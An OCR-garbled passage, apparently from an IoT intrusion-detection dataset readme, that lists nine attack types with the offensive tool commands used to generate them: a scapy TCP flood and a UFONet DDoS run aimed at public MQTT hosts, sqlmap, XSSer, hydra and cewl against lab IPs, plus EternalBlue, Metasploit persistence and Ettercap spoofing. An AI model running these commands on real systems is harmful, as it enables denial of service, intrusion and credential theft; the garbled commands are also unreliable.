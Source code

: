 ### 1. Scanning attack
- Collect infos abou victim systems uch as finding active IP addresses and open ports
### 2. DoS attack
- Fake flodding that attempts to corrupt resources of #Iot-IIot services  and network sys
- Python script using *scapy* package `send(IP(src=srcip, dst="broker.hivemq.com", ttl=rnd2)/ TCP(sport=port,dport=port, ack=rnd, window=rnd), count=100)`
### 3. DDoS attack
- Launches multiple DDoS attacks to corrupt targeted sys, turning rach one into a bot or zombie
- The attacker then had remote control over the group of bots named a botnet
- Bash script `python2 ./ufonet-a "http://www.mqtt-dashboard.com"-r "100"- loic "1000"--loris "1000"--ufosyn "1000"--spray "1000"--smurf "1000"--xmas "1000"--nuke "1000"--tachyon "1000"--threads "100"`
### 4. Ransomware attack
- Prevents normal users to access sys or services by encrypting them until they pay a ransom
- Executed by Metasploit framework named *eternalblue*
### 5. Backdoor attack
- Gain high-level user access and keep persistence to the hacked sys
- Executed by metasploit framework *bash script* of command `run persistence -h`
### 6. Injection attack
- Injects or inserts any fake data from clients to applications
- Using *bash script* `sqlmap-u http://192.168.1.195/dvwa/ vulnerabilities/sqli/?id=53`
### 7. Cross-site scripting (XSS)
- Employs a web app to transmit malicious code
- Using the *XSSer* `python2 xsser-u "https://192.168.1.184/index.jsp"--auto--Cem "Hex,Str,Hex"--user-agent "hacking"--timeout "20"--threads "5"`
### 8. Password cracking attack
- Brute-force and dictionary attacks
- Using *hydra* and *cewl* `hydra-l root-P /usr/share/wordlists/metasploit/unix_passwords.txt-t 5 ftp://192.168.1.152, and cewl http://192.168.1.195/dvwa--auth_type Digest--auth_user admin--auth_pass password-v`
### 9. MITM attack
- Snoop as one of the parties
- Using *Ettercapp* to execute ARP spoofing, ICMP redirection, port straling and DHCP spoofing